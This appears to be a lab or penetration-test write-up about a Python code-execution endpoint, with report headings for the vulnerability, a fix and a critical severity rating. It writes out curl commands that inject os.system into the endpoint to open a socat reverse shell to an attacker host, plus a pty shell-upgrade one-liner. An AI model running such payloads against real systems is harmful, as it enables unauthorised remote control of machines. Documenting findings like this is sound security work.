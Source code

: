 **Vulnerability Exploited:**

Python Exposed Feature allowing code execution

**Vulnerability Explanation:**

Using the end point to verify the code we are able to perform code execution : 

```bash
kali@kali:~$ curl -X POST --data "code=2*2" http://192.168.147.117:50000/verify
4
```

Using this we are able to craft a Python payload in order to receive our reverse shell :
```bash
kali@kali:~$ curl -X POST --data "code=os.system('socat TCP:192.168.49.147:18000 EXEC:sh')" http://192.168.147.117:50000/verify
```

We could upgrade our shell to a interactive one : 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](attachments/Pasted%20image%2020220517191513.png)


**Vulnerability Fix:**

Properly control user input in order to avoid escalation to reverse shell

**Severity:** Critical

**Proof of Concept / Code Here:**


```bash
curl -X POST --data "code=os.system('socat TCP:192.168.49.147:18000 EXEC:sh')" http://192.168.147.117:50000/verify
```
